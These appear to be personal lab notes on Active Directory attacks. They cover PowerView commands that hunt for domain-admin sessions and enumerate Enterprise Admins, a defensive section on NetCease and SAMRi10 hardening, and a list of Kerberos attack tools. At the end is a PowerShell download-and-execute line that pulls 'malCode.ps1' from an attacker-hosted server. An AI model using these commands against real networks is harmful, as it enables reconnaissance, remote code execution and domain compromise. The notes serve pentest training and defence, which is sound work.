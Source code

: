 ```
PowerView  >>> Invoke-UserHunter -GroupName "RDPUsers"                                 Find computers where a domain admin (or specified user/group) has sessions

PowerView  >>> Invoke-UserHunter -CheckAccess                                          Confirming admin access

PowerView  >>> Invoke-UserHunter -Stealth                                              Find Computers where domain admin is logged-in  Stealth only request to high traffic servers so it's little noisy , This option queries the DC of the current or provided domain for members of the given group (Domain Admins by default) using Get NetGroupMember , gets a list _only_ of high traffic servers (DC, File Servers and Distributed File servers) for less traffic generation and list sessions and logged on users ( Get-NetSession Get-NetLoggedon ) from each machine.

Seperate   >>> .\Find-WMILocalAdminAccess.ps1                                          Find all machines on the current domain where the current user has local admin access if RPC and SMB are blocked     Extremely (Noisy)
```

-------------

More Important User Enumeartion

To enumerate members of the Enterprise Admins group:
PS C:\AD\Tools> `Get-NetGroupMember -GroupName "Enterprise Admins"`
Since, this is not a root domain, the above command will return nothing. We need to query the root domain as Enterprise Admins group is present only in the root of a forest.
PS C:\AD\Tools> `Get-NetGroupMember -GroupName "Enterprise Admins" –Domain moneycorp.local`
_______________________________________________________

Defending Against Active Directory Enumeration

- Most of the enumeration mixes really well with the normal traffic to the DC.  (Cannot be Protected because it's normal behaivour)
- Hardening can be done on the DC (or other machines) to contain the information provided by the queried machine.
- However we can defend against one of the most lethal enumeration techniques: user hunting.
- Netcease is a script which changes permissions on the NetSessionEnum method by removing permission for Authenticated Users group.
- This fails many of the attacker's session enumeration and hence user hunting capabilities. .\NetCease.ps1 
- Another interesting script from the same author is SAMRi10 which hardens Windows 10 and Server 2016 against enumeration which uses SAMR protocol (like net.exe)
- https://gallery.technet.microsoft.com/SAMRi10-Hardening-Remote-48d94b5b
- https://gallery.technet.microsoft.com/Net-Cease-Blocking-Net-1e8dcb5b
- After Downloading NetCease.ps1 run it on the DC .\NetCease.ps1 Then restart server service by typing (Restart-Service -Name Server -Force) now no user can query Get-NetSession
- To disable NetCease type (.\NetCease.ps1 -Revert) Then restart server service by typing (Restart-Service -Name Server -Force)
---

Tools :
/usr/share/doc/python3-impacket/examples/GetNPUsers.py

rubeus.exe

k> kerbrute


at `/var/www/html` we run `service apache2 start` to make kali ip like website 
then use :
``` Powershell
iex (new-Object Net.WebClient).DownloadString('https://192.168.152.12/malCode.ps1')
```
